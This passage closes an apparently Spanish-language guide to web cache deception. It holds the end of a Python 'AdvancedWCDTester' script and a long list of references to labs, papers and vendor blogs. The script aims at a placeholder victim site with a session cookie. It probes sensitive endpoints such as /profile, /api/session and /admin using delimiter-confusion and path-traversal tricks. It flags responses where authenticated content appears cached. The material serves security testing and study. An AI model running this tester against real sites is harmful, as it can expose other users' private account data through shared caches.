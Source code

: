 ```python
        return (
            auth_resp.status_code == 200 and
            anon_resp.status_code == 200 and
            len(anon_resp.text) > 100 and  # Contenido sustancial
            ('cache' in str(anon_resp.headers).lower() or
             'hit' in anon_resp.headers.get('X-Cache', '').lower() or
             'Age' in anon_resp.headers)
        )
  
    def extract_cache_headers(self, response):
        """Extraer headers relevantes de caché"""
        cache_headers = {}
        relevant_headers = [
            'Cache-Control', 'Age', 'X-Cache', 'CF-Cache-Status',
            'X-Served-By', 'X-Cache-Hits', 'Expires'
        ]
    
        for header in relevant_headers:
            if header in response.headers:
                cache_headers[header] = response.headers[header]
            
        return cache_headers

# Uso del tester
def main():
    target = "https://victima.com"
    session_cookies = {'sessionid': 'valid_session_token'}
  
    tester = AdvancedWCDTester(target, session_cookies)
  
    # Endpoints críticos para testear
    critical_endpoints = [
        '/profile', '/dashboard', '/account', '/settings',
        '/api/user', '/api/profile', '/api/session',
        '/admin', '/api/admin', '/my-account'
    ]
  
    all_results = []
  
    for endpoint in critical_endpoints:
        print(f"[*] Testing endpoint: {endpoint}")
    
        # Test múltiples técnicas
        basic_results = tester.test_basic_wcd(endpoint)
        delimiter_results = tester.test_delimiter_confusion(endpoint) 
        traversal_results = tester.test_path_traversal(endpoint)
    
        all_results.extend(basic_results)
        all_results.extend(delimiter_results)
        all_results.extend(traversal_results)
    
        if basic_results or delimiter_results or traversal_results:
            print(f"[!] POTENTIAL WCD FOUND in {endpoint}")
  
    # Report final
    if all_results:
        print(f"\n[+] Total vulnerabilities found: {len(all_results)}")
        for result in all_results:
            print(f"    URL: {result['url']}")
            print(f"    Method: {result['method']}")
            print(f"    Cache Headers: {result.get('cache_headers', 'N/A')}")
            print("---")

```

[^1]: https://es-la.tenable.com/blog/identifying-web-cache-poisoning-and-web-cache-deception-how-tenable-web-app-scanning-can-help
[^2]: https://www.technologydecisions.com.au/content/information-technology-professionals-association/article/wcd-attacks-still-a-significant-issue-620111008
[^3]: https://seclab.nu/static/publications/sec2020wcd.pdf
[^4]: https://air.unimi.it/retrieve/7df93d97-538a-4df6-9355-7625561e0416/CLOSER_2024_36_CR%20(1).pdf
[^5]: https://www.vaadata.com/blog/web-cache-poisoning-attacks-and-security-best-practices/
[^6]: https://www.scitepress.org/Papers/2024/126920/126920.pdf
[^7]: https://portswigger.net/web-security/web-cache-deception
[^8]: https://siunam321.github.io/ctf/portswigger-labs/Web-Cache-Deception/WCD-4/
[^9]: https://gbhackers.com/new-cache-deception-attack-exploits/
[^10]: https://developers.cloudflare.com/cache/cache-security/cache-deception-armor/
[^11]: https://www.websecuritylens.org/tag/difference-between-web-cache-deception-and-web-cache-poison/
[^12]: https://www.cloudrangecyber.com/news/real-world-cybersecurity-breaches-caused-by-vulnerable-apis
[^13]: https://www.jianjunchen.com/p/web-cache-posioning.CCS24.pdf
[^14]: https://swisskyrepo.github.io/PayloadsAllTheThings/Web Cache Deception/
[^15]: https://birchwoodu.org/top-10-real-world-case-studies-on-cyber-security-incidents/
[^16]: https://curiosidadesdehackers.com/web-cache-deception/
[^17]: https://www.brightsec.com/blog/lfi-attack-real-life-attacks-and-attack-examples/
[^18]: https://developers.cloudflare.com/cache/cache-security/avoid-web-poisoning/
[^19]: https://owasp.org/www-project-top-10-ci-cd-security-risks/
[^20]: https://portswigger.net/research/gotta-cache-em-all
[^21]: https://portswigger.net/research/top-10-web-hacking-techniques-of-2024
[^22]: https://www.secopsolution.com/blog/10-most-uncommon-vulnerabilities-in-web-applications
[^23]: https://www.clear-gate.com/blog/web-cache-poisoning-deception/
[^24]: https://www.youtube.com/watch?v=39RdU8qYNCk
[^25]: https://www.sisainfosec.com/blogs/5-most-common-application-vulnerabilities-and-how-to-mitigate-them/
[^26]: https://github.com/resources/whitepapers/actions
[^27]: https://www.invicti.com/web-vulnerability-scanner/vulnerabilities/web-cache-deception/
[^28]: https://www.cobalt.io/blog/web-cache-deception-what-it-is-and-how-to-test-for-it
[^29]: https://journals.mmupress.com/index.php/jiwe/article/view/1062
[^30]: https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception
[^31]: https://jignect.tech/top-ci-cd-tools-every-qa-automation-engineer-should-know/
[^32]: https://infosecwriteups.com/mastering-web-cache-deception-vulnerabilities-an-advanced-bug-hunters-guide-b7b500b482e3
[^33]: https://www.youtube.com/watch?v=O6lr-LKhEwI
[^34]: https://infosecuritycompliance.com/open-ai-web-cache-deception-vulnerability/
[^35]: https://hackerone.com/reports/1391635
[^36]: https://github.com/topics/automation-tools
[^37]: https://codesealer.com/blog/web-cache-deception-attacks
[^38]: https://github.com/f-min/WCD_prober
[^39]: https://www.usenix.org/system/files/sec22-mirheidari.pdf
[^40]: https://pt-br.tenable.com/blog/identifying-web-cache-poisoning-and-web-cache-deception-how-tenable-web-app-scanning-can-help
[^41]: https://spectralops.io/blog/top-10-ci-cd-automation-tools/
[^42]: https://stackoverflow.com/questions/64373470/best-practice-for-xss-attacks-in-rest-api
[^43]: https://stackoverflow.com/questions/2965746/how-do-you-prevent-brute-force-attacks-on-restful-data-services
[^44]: https://www.scribd.com/document/845952260/A-Methodology-for-Web-Cache-Deception-Vulnerability-Discovery
[^45]: https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-cache-server-normalization
[^46]: https://www.youtube.com/watch?v=-cwRNObMpVg
[^47]: https://www.vaadata.com/blog/how-to-strengthen-the-security-of-your-apis-to-counter-the-most-common-attacks/
[^48]: https://portswigger.net/web-security/web-cache-deception/lab-wcd-exploiting-origin-server-normalization
[^49]: https://www.nohat.it/slides/2024/minetti.pdf
[^50]: https://hackread.com/rising-threat-of-api-attacks-how-to-secure-apis-2025/
[^51]: https://www.youtube.com/watch?v=e4655fU7yAQ
[^52]: https://danaepp.com/3-ways-to-use-common-attack-patterns-to-abuse-an-api